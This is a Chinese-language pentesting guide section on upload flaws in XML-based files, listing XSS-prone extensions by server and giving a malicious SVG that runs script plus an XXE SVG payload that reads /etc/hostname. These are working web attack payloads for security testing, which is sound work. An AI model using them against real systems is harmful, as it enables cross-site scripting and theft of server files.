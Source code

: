 - [content-type-research](https://github.com/BlackFan/content-type-research) 项目

## 1.5. 允许上传XML格式文件并解析

如果允许上传XML格式文件，如`docx`、`xlsx`、`svg`等本质是xml的文件，且后端会对上传的文件进行解析，那么可能存在XSS、XXE等漏洞

### XSS

|              | XSS 后缀                                                     |
| ------------ | ------------------------------------------------------------ |
| Common       | xml	svg		xht		xsd		xsl		svgz  	xhtml |
| IIS          | dtd	vml	xsf	mno	wsdl	xslt	disco	exe.config	dll.config |
| Apache httpd | rdf		mathml                                            |
| 其他/少见    | vtt		mml                                               |

主要说说svg文件如何造成xss

**检查思路：**

1. 创建一个恶意的svg文件，输入如下内容：

```xml
&lt;?xml version=&#34;1.0&#34; standalone=&#34;no&#34;?&gt;
&lt;!DOCTYPE svg PUBLIC &#34;-//W3C//DTD SVG 1.1//EN&#34; &#34;http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd&#34;&gt;
&lt;svg version=&#34;1.1&#34; baseProfile=&#34;full&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34;&gt;
   &lt;polygon id=&#34;triangle&#34; points=&#34;0,0 0,50 50,0&#34; fill=&#34;#009900&#34; stroke=&#34;#004400&#34;/&gt;
   &lt;script type=&#34;text/javascript&#34;&gt;
      alert(document.domain);
   &lt;/script&gt;
&lt;/svg&gt;
```

上传到文件中，并访问即可触发XSS。

### XXE

XXE in XML

以恶意svg为例，一般尝试OOB外带注入的方式来判断最快

```xml
&lt;?xml version=&#34;1.0&#34; standalone=&#34;yes&#34;?&gt;
&lt;!DOCTYPE test [ &lt;!ENTITY xxe SYSTEM &#34;file:///etc/hostname&#34; &gt; ]&gt;
&lt;svg width=&#34;128px&#34; height=&#34;128px&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34; xmlns:xlink=&#34;http://www.w3.org/1999/xlink&#34; version=&#34;1.1&#34;&gt;
  &lt;text font-size=&#34;16&#34; x=&#34;0&#34; y=&#34;16&#34;&gt;&amp;xxe;&lt;/text&gt;
&lt;/svg&gt;
```

恶意的XXE文档生成：[docem](https://github.com/whitel1st/docem.git)
